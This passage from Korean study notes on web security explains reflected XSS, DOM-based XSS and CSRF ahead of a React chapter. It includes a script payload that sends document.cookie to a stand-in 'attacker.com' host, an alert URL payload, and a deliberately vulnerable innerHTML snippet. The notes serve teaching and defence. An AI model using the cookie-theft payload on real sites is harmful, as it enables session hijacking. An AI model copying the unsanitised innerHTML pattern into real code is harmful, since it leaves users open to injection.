사용자가 특정 웹 요청을 할 때, 서버가 그 입력 값을 즉시 반환하여 실행되는 XSS 공격

사용자의 브라우저에서 바로 실행됨

```html
<script> 
  document.location = 'http://attacker.com/cookie?' + document.cookie
</script>
```

- **`document.location` :** 브라우저가 현재 위치한 URL을 변경 → 다른 웹 페이지로 **리다이렉트**
- **`document.cookie` :** 브라우저에 저장된 **쿠키 값**을 가져옴 → **세션 정보 / 로그인 상태**

⇒ 사용자의 **쿠키** 값을 공격자의 서버로 **전송**하여 세션을 탈취할 수 있음

```html
https://example.com/search?q=<script>alert('XSS')</script>
```

사용자가 위 URL을 클릭하면 서버가 `q` 파라미터를 그대로 반영한 페이지를 반환

⇒ `<script>alert('XSS')</script>`가 브라우저에서 실행되어 알림 창이 뜬다는 소리

보통 URL 파라미터나 폼 데이터를 통해 공격

- 공격자는 피해자가 URL을 클릭하도록 유도해야 함 ⇒ 주로 피싱 이메일이나 악성 링크를 통한 유도

### **DOM-based XSS**

DOM(Document Object Model) 조작을 통해 클라이언트 측에서 발생하는 XSS

클라이언트 측 JavaScript가 사용자 입력을 처리할 때, 이 값을 검증하지 않고 HTML에 동적으로 삽입하는 경우

```jsx
var userInput = location.search;  // URL에서 입력을 가져옴
document.body.innerHTML = "Welcome " + userInput;  // DOM에 그대로 삽입
```

---

### Cross Site Request Forgery(CSRF)이란?

<aside>
🔐

공격자가 사용자를 속여, 사용자의 의지와는 상관없이 **인증된 세션**을 이용해 **서버에 요청을 보내는 공격**

</aside>

ex) 링크 클릭시 일어나는 위조된 요청!

xss는 `script` 태그, 얘는 `form` 태그를 삽입하는 방식

---

## **14.1 리액트에서 발생하는 크로스 사이트 스크립팅**

게시판에 아래와 같은 글을 작성한다고 했을 때! 

이 글을 방문했을 때 별도의 조치가 없다면 script가 실행되어 `window.alert` 도 함께 실행 될 것이다
